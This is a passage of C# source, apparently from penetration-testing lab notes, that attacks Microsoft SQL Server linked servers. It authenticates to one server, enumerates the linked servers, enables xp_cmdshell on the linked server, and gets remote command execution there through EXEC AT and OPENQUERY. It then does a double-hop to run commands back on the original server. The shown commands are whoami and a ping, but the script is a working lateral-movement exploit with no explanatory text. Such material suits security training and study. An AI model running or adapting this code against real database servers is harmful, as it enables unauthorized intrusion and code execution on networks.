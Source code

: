 ```csharp
            reader.Close();
            return result;
        }

        static void Main(string[] args)
        {
            // Authenticate
            string sqlServer = "SQLSRV01.corp1.com";
            string database = "master";
            string conString = $"Server = {sqlServer}; Database = {database}; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("[+] Auth success!");
            }
            catch
            {
                Console.WriteLine("[-] Auth failed");
                Environment.Exit(0);
            }

            // List linked servers
            string result = sqlQuery("EXEC sp_linkedservers;", con);
            Console.WriteLine($"[*] Linked SQL servers:\n{result}");

            // Enumerate current login on the linked server
            result = sqlQuery("select login from openquery(\"SQLSRV02\", 'select SYSTEM_USER as login');", con);
            Console.WriteLine($"[*] Executing as the login {result} at SQLSRV02");

            // Enable xp_cmdshell on the linked server
            result = sqlQuery("EXEC ('EXEC sp_configure ''show advanced options'',1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'',1; RECONFIGURE;') at SQLSRV02;", con);

            // RCE via EXEC AT on the linked server
            result = sqlQuery("EXEC ('EXEC xp_cmdshell ''whoami'';') at SQLSRV02;", con);
            Console.WriteLine($"[*] xp_cmdshell at SQLSRV02 via EXEC AT: {result}");

            // RCE via OPENQUERY on the linked server
            sqlQuery("select 1 from openquery(\"SQLSRV02\", 'select 1; EXEC xp_cmdshell ''cmd /c ping -n 2 10.10.13.37'';');", con);

            // Double-hop RCE on the target server (SQLSRV01) from the linked server (SQLSRV02)
            sqlQuery("EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''',1; RECONFIGURE; EXEC sp_configure ''''xp_cmdshell'''',1; RECONFIGURE;'') at SQLSRV01;') at SQLSRV02;", con);
            sqlQuery("EXEC ('EXEC (''EXEC xp_cmdshell ''''cmd /c ping -n 2 10.10.13.37'''';'') at SQLSRV01;') at SQLSRV02;", con);

            con.Close();
        }
    }
}
```
{% endcode %}
